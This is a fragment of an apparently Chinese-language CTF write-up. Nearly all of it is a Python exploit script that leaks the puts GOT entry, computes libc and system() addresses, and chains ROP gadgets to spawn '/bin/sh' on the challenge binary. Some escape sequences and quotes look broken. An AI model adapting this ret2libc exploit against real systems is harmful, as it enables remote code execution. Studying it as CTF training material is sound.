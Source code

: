 ```
get_buff_addr = 0x400D75
puts_got = 0x0000000000603020
"""
pwn_with_array(io, val_list)
data = io.read(6)+"x00"*2
print repr(data)
puts_addr = l64(data)
libc_base = puts_addr - offset_puts
system_addr = libc_base + offset_system
print hex(libc_base)
print hex(system_addr)
val_list = []
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_8_val)
val_list.append(get_buff_val)
val_list.append(p_rdi_ret_val)
val_list.append(puts_got_8_val)
val_list.append(puts_plt_val)
pwn_with_array(io, val_list)
io.writeline("/bin/shx00" + l64(system_addr))
io.interact()
io = get_io(target)
pwn(io)
```

flag如下：

[![](./img/85852/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0136c0bc859f84f579.png)

